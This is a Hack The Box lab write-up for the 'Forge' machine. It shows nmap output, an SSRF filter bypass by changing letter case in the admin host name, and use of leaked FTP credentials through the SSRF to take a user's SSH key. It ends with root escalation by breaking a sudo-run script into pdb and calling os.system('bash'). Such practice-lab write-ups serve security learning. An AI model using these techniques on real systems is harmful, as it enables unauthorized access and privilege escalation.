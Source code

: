 ```yaml
---
title: Forge - Medium
categories: htb SSRF 
excerpt: | 
  Linux machine with a vulnerable page. 

feature_text: |
  ## Forge - Medium
  
feature_image: "https://picsum.photos/2560/600?image=733"
image: "https://picsum.photos/2560/600?image=733"
---
```


### Scanning process
nmap ip:
``` 
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4f:78:65:66:29:e4:87:6b:3c:cc:b4:3a:d2:57:20:ac (RSA)
|   256 79:df:3a:f1:fe:87:4a:57:b0:fd:4e:d0:54:c6:28:d9 (ECDSA)
|_  256 b0:58:11:40:6d:8c:bd:c5:72:aa:83:08:c5:51:fb:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Gallery
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Let's examine what type of page is with `whatweb` to see more information about it. 
Now we can analize the main page that it is running in http://10.10.11.111 and we will see that it is necesary to add host forge.htb in /etc/hosts.

There can be others subdomain so use `gobuster` to find all of them.

> admin.forge.htb

This subdomain requires to be as a localhots request but you can use the `upload from url` option, which is vulnerable to *SSRF (Server Side Request Forgery)* because you can do a request as a localhost. `Request: http://aDmIn.FoRgE.HtB`. _There are a blacklist input that you can pass playing with capital letters_.

Get the respond with `curl -s -X GET "..."`. There is another section:
> `<a href="/announcements">Announcements</a>`

Let's in and get the respond again:
```
<li>An internal ftp server has been setup with credentials as user:heightofsecurity123!</li>
<li>The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.</li>
<li>The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=&lt;url&gt;.</li>
```
Ftp is open but it seems to be filtered with firewall. So it's possible to get files with the SSRF.
```
http://aDmIn.FoRgE.HtB/upload?u=ftp://user:heightofsecurity123!@FoRgE.HtB
```
> drwxr-xr-x    3 1000     1000         4096 Aug 04  2021 snap
-rw-r-----    1 0        1000           33 May 07 19:39 user.txt

There we go. We can see the private key (id\_rsa) of the user to connect with ssh.

### Privilege scalation
See the privilege of the user `sudo -l` and there is one aplication that you can run as ALL users. Take a look of how it works and then:
1. Get a new ssh conection.
2. Run as sudo this aplication.
3. Establish a new request with nc: `nc localhost {port}`
4. Submit the password
5. Generate a new interrumption (p.e enter a string instead of int)
6. pdb break point will be generate. Import os and execute: os.system('bash')
